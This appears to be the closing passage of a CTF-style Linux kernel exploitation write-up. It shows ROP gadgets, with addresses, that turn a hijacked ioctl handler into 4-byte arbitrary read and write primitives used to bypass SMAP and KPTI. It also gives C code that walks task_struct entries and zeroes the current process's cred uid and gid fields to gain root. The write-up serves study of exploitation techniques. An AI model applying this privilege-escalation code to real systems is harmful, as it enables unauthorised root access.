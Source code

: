 So if we overwrite the `ioctl` handler with a gadget like the following, we can get a 4byte arbitrary write primitive.

```
0xffffffff810a0333: mov dword ptr [rdx], esi; ret; 
```

There are 2 reasons for not using `mov qword ptr [rdx], rsi; ret`. First its opcode is longer and therefore it has a low chance of existing in the kernel. Second the second argument, which corresponds to RSI is of type `unsigned int`, so we can only control the lower 4 bytes of it. The last argument is fully controllable though.

Since we can get the return value of `ioctl`, we can use the following gadget as a 4 byte read primitive as well.

```
0xffffffff81051543: mov rax, qword ptr [rdx + 0x28]; ret;
```

Because the return type is `unsigned long` for `ioctl` we can only get the lower 4 bytes of RAX.

You might think that it would be better to use functions such as `write` because its second argument is fully controllable and its return value is 64bit, but functions whose argument types are pointers cannot be used in this manner, because the syscall wrapper functions check if the pointers are userspace pointers, so control will be stopped before jumping to the gadget.

By using the 4 byte R/W primitives we can bypass SMAP+KPTI very easily. I chose the method of traversing `task_struct`s until we got the current task, and overwrote fields of the `cred` structure.

```c
unsigned long cur = init_task, cred;
    unsigned int pid;
    unsigned int this_pid = getpid();
    while(1) {
        pid = read32(cur + PID_OFFSET);
        if (pid == this_pid) {
            cred = read64(cur + CRED_OFFSET);
            LOG("Found current process(pid=%d)'s cred struct %p\n", pid, (void *)cred);
            LOG("original uid=%d, gid=%d. now escalating to root\n", read32(cred + 4), read32(cred + 8));
            write64(0x0, cred + 4);
            write64(0x0, cred + 12);
            write64(0x0, cred + 20);
            write64(0x0, cred + 28);
            LOG("now i am uid=%d\n", getuid());
            break;
        }
        cur = read64(cur + TASKS_OFFSET) - TASKS_OFFSET;
    }
```

# Overall
Using those gadgets is a very CTFish approach, but I think it can be used for real world exploits too. I didn't see a writeup discussing this technique, so I wanted people to know, since it is powerful yet simple to understand. Thanks for reading this.